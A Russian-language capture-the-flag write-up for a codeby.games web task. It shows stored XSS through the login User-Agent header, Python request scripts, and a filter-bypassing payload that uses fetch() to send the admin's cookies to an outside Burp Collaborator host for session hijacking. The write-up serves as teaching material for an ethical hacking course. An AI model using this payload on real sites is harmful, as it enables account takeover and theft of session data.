# Врайт-ап задания "Запретный код" с платформы codeby.games

Подготовлен

![Untitled](%D0%92%D1%80%D0%B0%D0%B8%CC%86%D1%82-%D0%B0%D0%BF%20%D0%B7%D0%B0%D0%B4%D0%B0%D0%BD%D0%B8%D1%8F%20%D0%97%D0%B0%D0%BF%D1%80%D0%B5%D1%82%D0%BD%D1%8B%D0%B8%CC%86%20%D0%BA%D0%BE%D0%B4%20%D1%81%20%D0%BF%D0%BB%D0%B0%D1%82%D1%84%D0%BE%D1%80%D0%BC%D1%8B%20codeb%2004c8b88b448b4fafb2daeb2aee7bb552/Untitled.png)

Задание **“Запретный код”** имеет сложность “Сложный” и относится к категории Веб

---

Переходим по указанному адресу **(62.173.140.174:16035)** и видим страницу авторизации с возможностью создания аккаунта

![Untitled](%D0%92%D1%80%D0%B0%D0%B8%CC%86%D1%82-%D0%B0%D0%BF%20%D0%B7%D0%B0%D0%B4%D0%B0%D0%BD%D0%B8%D1%8F%20%D0%97%D0%B0%D0%BF%D1%80%D0%B5%D1%82%D0%BD%D1%8B%D0%B8%CC%86%20%D0%BA%D0%BE%D0%B4%20%D1%81%20%D0%BF%D0%BB%D0%B0%D1%82%D1%84%D0%BE%D1%80%D0%BC%D1%8B%20codeb%2004c8b88b448b4fafb2daeb2aee7bb552/Untitled%201.png)

После регистрации попадаем на страницу с логами входа. При регистрации аккаунта я сразу решил попробовать проэксплуатировать XSS уязвимость и в поле *Username* вставил тестовый скрипт `<script>alert(1)</alert>`
Страница после входа выглядит так:

![Untitled](%D0%92%D1%80%D0%B0%D0%B8%CC%86%D1%82-%D0%B0%D0%BF%20%D0%B7%D0%B0%D0%B4%D0%B0%D0%BD%D0%B8%D1%8F%20%D0%97%D0%B0%D0%BF%D1%80%D0%B5%D1%82%D0%BD%D1%8B%D0%B8%CC%86%20%D0%BA%D0%BE%D0%B4%20%D1%81%20%D0%BF%D0%BB%D0%B0%D1%82%D1%84%D0%BE%D1%80%D0%BC%D1%8B%20codeb%2004c8b88b448b4fafb2daeb2aee7bb552/Untitled%202.png)

---

Попробуем зайти в наш аккаунт с другого профиля в хром но с другим паролем, чтобы попытка входа отобразилась в логах

![Untitled](%D0%92%D1%80%D0%B0%D0%B8%CC%86%D1%82-%D0%B0%D0%BF%20%D0%B7%D0%B0%D0%B4%D0%B0%D0%BD%D0%B8%D1%8F%20%D0%97%D0%B0%D0%BF%D1%80%D0%B5%D1%82%D0%BD%D1%8B%D0%B8%CC%86%20%D0%BA%D0%BE%D0%B4%20%D1%81%20%D0%BF%D0%BB%D0%B0%D1%82%D1%84%D0%BE%D1%80%D0%BC%D1%8B%20codeb%2004c8b88b448b4fafb2daeb2aee7bb552/Untitled%203.png)

![Untitled](%D0%92%D1%80%D0%B0%D0%B8%CC%86%D1%82-%D0%B0%D0%BF%20%D0%B7%D0%B0%D0%B4%D0%B0%D0%BD%D0%B8%D1%8F%20%D0%97%D0%B0%D0%BF%D1%80%D0%B5%D1%82%D0%BD%D1%8B%D0%B8%CC%86%20%D0%BA%D0%BE%D0%B4%20%D1%81%20%D0%BF%D0%BB%D0%B0%D1%82%D1%84%D0%BE%D1%80%D0%BC%D1%8B%20codeb%2004c8b88b448b4fafb2daeb2aee7bb552/Untitled%204.png)

Видим, что наш скрипт успешно отработал

---

Теперь же наша задача попасть в админ панель, посмотрим, из чего состоят cookie, чтобы мы могли по ним попасть к админу

![Untitled](%D0%92%D1%80%D0%B0%D0%B8%CC%86%D1%82-%D0%B0%D0%BF%20%D0%B7%D0%B0%D0%B4%D0%B0%D0%BD%D0%B8%D1%8F%20%D0%97%D0%B0%D0%BF%D1%80%D0%B5%D1%82%D0%BD%D1%8B%D0%B8%CC%86%20%D0%BA%D0%BE%D0%B4%20%D1%81%20%D0%BF%D0%BB%D0%B0%D1%82%D1%84%D0%BE%D1%80%D0%BC%D1%8B%20codeb%2004c8b88b448b4fafb2daeb2aee7bb552/Untitled%205.png)

---

Напишем простой скрипт на питоне с использованием библиотеки requests для того чтобы посмотреть возможность редактирования User agent. Это все нам надо чтобы в последствии когда мы допишем пейлоад мы могли в наш User agent запихнуть пейлоад на получения куков админа

```python
# Импорт библиотеки requests для работы с http запросами
import requests
# Сам пейлоад
payload = '<script>alert(document.cookie);</script>'

# Логин который будет использоваться при входе
user = "asdf"
# Часть из запроса включаящая User-agent которую мы изменяем на payload
headers = {'User-Agent': payload}
# Тоже часть запроса, передающая данные для входа
data = {"username":user, "password":"aboba"}

# Склеивание запроса вместе и отправка на сервер
response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)

# Вывод статус кода и текста ответа
print(response.status_code)
print(response.text)
```

> Этот скрипт совершает попытку входа в наш аккаунт подставляя в User agent простой пейлоад
> 

Это будет работать примерно так:

- Мы изменяем наш User agent на пейлоад
- Мы знаем, что у админа логин - admin, используем это и будет входить с любым паролем, чтобы у админа он отобразился в логах
- Т.к. мы выяснили, что скрипт вставленный в User agent срабатывает автоматически, следоватаельно мы можем заменить простой пейлоад на пейлоад с получением куки из document.cookie
- Мы будем использовать **Collaborator** из burp suit pro ****для создания временного сервера для приятия наших отстуков

Т.к. на сайте присутствует защита от прямого получения cookie по фильтру на это слово используем возможности JavaScript для преобразования двух частей слово в одно

```jsx
<script>const vv = ["coo", "kie"].join("");alert(document[vv]);</script>
```

Итоговый пейлоад будет выглядеть так:

```python
import requests
# В данном коде все аналогично прошлому, но тут мы разделили слово cookie на два фрагмента и склеили их потом
payload = '<script>const vv = ["coo", "kie"].join(""); var payload = `https://{ссылка из burpsuit}/?${vv}=` + document[vv]; fetch(payload);</script>'
user = "admin"
headers = {'User-Agent': payload}
data = {"username": user, "password": "aboba"}
response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
print(response.status_code)
print(response.text)
```

Запускаем и ждем  ответа в бурпе

![Untitled](%D0%92%D1%80%D0%B0%D0%B8%CC%86%D1%82-%D0%B0%D0%BF%20%D0%B7%D0%B0%D0%B4%D0%B0%D0%BD%D0%B8%D1%8F%20%D0%97%D0%B0%D0%BF%D1%80%D0%B5%D1%82%D0%BD%D1%8B%D0%B8%CC%86%20%D0%BA%D0%BE%D0%B4%20%D1%81%20%D0%BF%D0%BB%D0%B0%D1%82%D1%84%D0%BE%D1%80%D0%BC%D1%8B%20codeb%2004c8b88b448b4fafb2daeb2aee7bb552/Untitled%206.png)

Тут нас интересует phpsessid, копируем его и подменяем через cookie editor 

![Untitled](%D0%92%D1%80%D0%B0%D0%B8%CC%86%D1%82-%D0%B0%D0%BF%20%D0%B7%D0%B0%D0%B4%D0%B0%D0%BD%D0%B8%D1%8F%20%D0%97%D0%B0%D0%BF%D1%80%D0%B5%D1%82%D0%BD%D1%8B%D0%B8%CC%86%20%D0%BA%D0%BE%D0%B4%20%D1%81%20%D0%BF%D0%BB%D0%B0%D1%82%D1%84%D0%BE%D1%80%D0%BC%D1%8B%20codeb%2004c8b88b448b4fafb2daeb2aee7bb552/Untitled%207.png)

И попадаем в админ панель с флагом в ней!

![Untitled](%D0%92%D1%80%D0%B0%D0%B8%CC%86%D1%82-%D0%B0%D0%BF%20%D0%B7%D0%B0%D0%B4%D0%B0%D0%BD%D0%B8%D1%8F%20%D0%97%D0%B0%D0%BF%D1%80%D0%B5%D1%82%D0%BD%D1%8B%D0%B8%CC%86%20%D0%BA%D0%BE%D0%B4%20%D1%81%20%D0%BF%D0%BB%D0%B0%D1%82%D1%84%D0%BE%D1%80%D0%BC%D1%8B%20codeb%2004c8b88b448b4fafb2daeb2aee7bb552/Untitled%208.png)

---

Написано [frechez](https://t.me/peeepaw) для курса "Этичный хакинг"
